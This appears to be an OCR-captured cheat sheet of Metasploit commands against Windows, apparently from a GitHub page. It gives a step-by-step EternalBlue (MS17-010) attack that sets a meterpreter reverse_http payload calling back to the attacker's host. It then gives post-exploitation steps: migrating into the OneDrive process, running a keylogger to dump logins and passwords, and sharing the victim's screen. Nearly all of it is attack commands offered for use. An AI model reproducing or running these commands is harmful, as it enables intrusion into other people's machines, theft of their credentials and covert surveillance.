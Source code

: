## METASPLOIT[TOOL TO EXPLOIT MICROSOFT]
* KEYLOG 
  > msfconsole 
  > search eternal 
  > use exploit/windows/smb/ms17_010_psexec
  > set payload windows/x64/meterpreter/reverse_http
  > show options 
  > set LHOST 192.168.0.100 (your IP address)
  > set RHOSTS 192.168.0.185 (WINDOWS IP address)
  > exploit

  > ps (List all processes inside the machine)
  > sysinfo (Show system information) 
  > migrate 5924 (Process ID of OneDrive)
  > keyscan_start
  > keyscan_dump ( List all login/ pass used


* SCREEN SHARING
    Do Five first task
    > ps (List all processes)
    > migrate 6068 (Process ID of OneDrive)
    > screenshare

